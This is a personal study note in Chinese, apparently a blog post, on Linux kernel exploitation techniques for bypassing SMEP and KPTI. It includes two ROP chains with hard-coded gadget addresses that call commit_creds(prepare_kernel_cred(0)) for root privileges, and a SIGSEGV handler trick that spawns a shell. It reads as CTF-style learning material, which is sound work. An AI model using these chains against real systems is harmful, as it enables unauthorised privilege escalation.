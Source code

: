 ```yaml
---
title: Linux Kernel Exploitation Tricks
date: 2024-09-19 10:54:10
tags: [Linux Kernel, 笔记]
categories: 
    - 笔记
---
```


跟着H0pe师傅学的[Kernel-Pwn](https://h0pe-ay.github.io/kernel-pwn/)，记录一下防忘

# 绕过SEMP
## 修改RC4
开启SMEP保护实际是将CR4寄存器的第20比特位置为1，native_write_cr4(size_t new_cr4)函数可以设置cr4寄存器的值
该方法在某次patch后不可用
## ROP
找Gadgets执行commit_creds(prepare_kernel_cred(0))然后swapgs，iretq返回用户态。
ROP Chain :
```C
    unsigned long payload[256];
    payload[index++] = canary;
    payload[index++] = 0;
    payload[index++] = 0;
    payload[index++] = 0;
    payload[index++] = 0xffffffff81006370; //pop_rdi_ret
    payload[index++] = 0;
    payload[index++] = 0xffffffff814c67f0; //prepare_kernel_cred
    payload[index++] = 0xffffffff8150b97e; //pop_rsi_ret
    payload[index++] = 0;
    payload[index++] = 0xffffffff81006370; //pop_rdi_ret
    payload[index++] = 1;
    payload[index++] = 0xffffffff818c6b35; //add rsi, 1; cmp rsi, rdi; jne 0xac6b30; pop rbp; ret;
    payload[index++] = 0;
    payload[index++] = 0xffffffff8166fea3; //mov rdi, rax; jne 0x86fe73; pop rbx; pop rbp; ret;
    payload[index++] = 0;
    payload[index++] = 0;
    payload[index++] = 0xffffffff814c6410; //commit_creds;
    payload[index++] = 0xffffffff8100a55f; //swapgs; pop rbp; ret;
    payload[index++] = 0;
    payload[index++] = 0xffffffff814381cb; //iretq; pop rbp; ret;
    payload[index++] = (unsigned long)backdoor;
    payload[index++] = user_cs;
    payload[index++] = user_rflags;
    payload[index++] = user_sp;
    payload[index++] = user_ss;
```
## 栈迁移到mmap后ROP
通过pop rbp; ret; mov rsp, rbp; pop rbp; ret;这样的Gadgets将rsp设置位mmap开辟的地址，mmap内放ROP Chain。

# 绕过KPTI
KPTI将用户页和内核页隔离，内核页找不到用户页，反之同样。上述利用方法在iretq的时候都会用到到用户的backdoor地址，开启KPTI后内核就找不到这个地址了。
## 通过异常处理
注册一个异常处理的函数去捕获SIGSEGV信号，在捕获到该信号时执行异常处理函数，可自定义为system("/bin/sh")
```C
signal(SIGSEGV, backdoor);
```
## 通过swapgs_restore_regs_and_return_to_usermode
CR3用于存储页目录表（Page Directory Table）的物理地址。每个进程的CR3独立，内核与用户态进程都有独立的CR3，swapgs_restore_regs_and_return_to_usermode函数可以将CR3设置为用户态的。swapgs_restore_regs_and_return_to_usermode函数内部存在swapgs和iretq，只要将栈布置好就可以一把梭。
ROP Chain：
```C
	payload[index++] = canary;
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = 0xffffffff81006370; //pop_rdi_ret
	payload[index++] = 0;
	payload[index++] = 0xffffffff814c67f0; //prepare_kernel_cred
	payload[index++] = 0xffffffff8150b97e; //pop_rsi_ret
	payload[index++] = 0;
	payload[index++] = 0xffffffff81006370; //pop_rdi_ret
	payload[index++] = 1;
	payload[index++] = 0xffffffff818c6b35; //add rsi, 1; cmp rsi, rdi; jne 0xac6b30; pop rbp; ret; 
	payload[index++] = 0;
	payload[index++] = 0xffffffff8166fea3; //mov rdi, rax; jne 0x86fe73; pop rbx; pop rbp; ret; 
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = 0xffffffff814c6410; //commit_creds;
	payload[index++] = 0xffffffff81200f10 + 22; //swapgs_restore_regs_and_return_to_usermode + 22;mov    rdi,rsp;
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = (unsigned long)backdoor;
	payload[index++] = user_cs;
	payload[index++] = user_rflags;
	payload[index++] = user_sp;
	payload[index++] = user_ss;
```
swapgs_restore_regs_and_return_to_usermode + 22是为了跳过函数前面的一堆pop。

